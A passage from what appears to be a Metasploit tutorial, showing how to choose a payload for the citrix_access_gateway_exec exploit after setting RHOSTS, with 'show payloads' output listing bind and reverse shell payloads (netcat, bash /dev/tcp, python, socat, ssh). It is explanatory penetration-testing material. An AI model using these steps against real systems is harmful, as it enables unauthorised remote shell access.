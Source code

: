 ```
   ‐‐  ‐‐‐‐
   0   Automatic
```

The output shows the RHOSTS variable or option has the target machine IP address that we specified using the `set` command.

### Choose the Payload <a href="#post-3536-_heading-h.1pxezwc" id="post-3536-_heading-h.1pxezwc"></a>

After we’ve specified the required options for our exploit, we have to set up the payload that we’ll be sending after the exploit successfully completes. There are a lot of payloads in all of Metasploit database. However, after selecting the exploit, you will get the only payloads that are compatible with the exploit. Here, you can use the `show` command usefully to see the available payloads:

```
msf6 exploit(unix/webapp/citrix_access_gateway_exec) > show payloads
```

```
Compatible Payloads
===================

   #   Name                                      Disclosure Date  Rank    Check  Description
   -   ‐‐‐‐                                      ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐  ‐‐‐‐    ‐‐‐‐‐  ‐‐‐‐‐‐‐‐‐‐‐
   0   payload/cmd/unix/bind_busybox_telnetd                      normal  No     Unix Command Shell, Bind TCP (via BusyBox telnetd)
   1   payload/cmd/unix/bind_netcat                               normal  No     Unix Command Shell, Bind TCP (via netcat)
   2   payload/cmd/unix/bind_netcat_gaping                        normal  No     Unix Command Shell, Bind TCP (via netcat -e)
   3   payload/cmd/unix/bind_netcat_gaping_ipv6                   normal  No     Unix Command Shell, Bind TCP (via netcat -e) IPv6
   4   payload/cmd/unix/bind_socat_udp                            normal  No     Unix Command Shell, Bind UDP (via socat)
   5   payload/cmd/unix/bind_zsh                                  normal  No     Unix Command Shell, Bind TCP (via Zsh)
   6   payload/cmd/unix/generic                                   normal  No     Unix Command, Generic Command Execution
   7   payload/cmd/unix/pingback_bind                             normal  No     Unix Command Shell, Pingback Bind TCP (via netcat)
   8   payload/cmd/unix/pingback_reverse                          normal  No     Unix Command Shell, Pingback Reverse TCP (via netcat)
   9   payload/cmd/unix/reverse_bash                              normal  No     Unix Command Shell, Reverse TCP (/dev/tcp)
   10  payload/cmd/unix/reverse_bash_telnet_ssl                   normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   11  payload/cmd/unix/reverse_bash_udp                          normal  No     Unix Command Shell, Reverse UDP (/dev/udp)
   12  payload/cmd/unix/reverse_ksh                               normal  No     Unix Command Shell, Reverse TCP (via Ksh)
   13  payload/cmd/unix/reverse_ncat_ssl                          normal  No     Unix Command Shell, Reverse TCP (via ncat)
   14  payload/cmd/unix/reverse_netcat                            normal  No     Unix Command Shell, Reverse TCP (via netcat)
   15  payload/cmd/unix/reverse_netcat_gaping                     normal  No     Unix Command Shell, Reverse TCP (via netcat -e)
   16  payload/cmd/unix/reverse_python                            normal  No     Unix Command Shell, Reverse TCP (via Python)
   17  payload/cmd/unix/reverse_socat_udp                         normal  No     Unix Command Shell, Reverse UDP (via socat)
   18  payload/cmd/unix/reverse_ssh                               normal  No     Unix Command Shell, Reverse TCP SSH
   19  payload/cmd/unix/reverse_zsh                               normal  No     Unix Command Shell, Reverse TCP (via Zsh)
```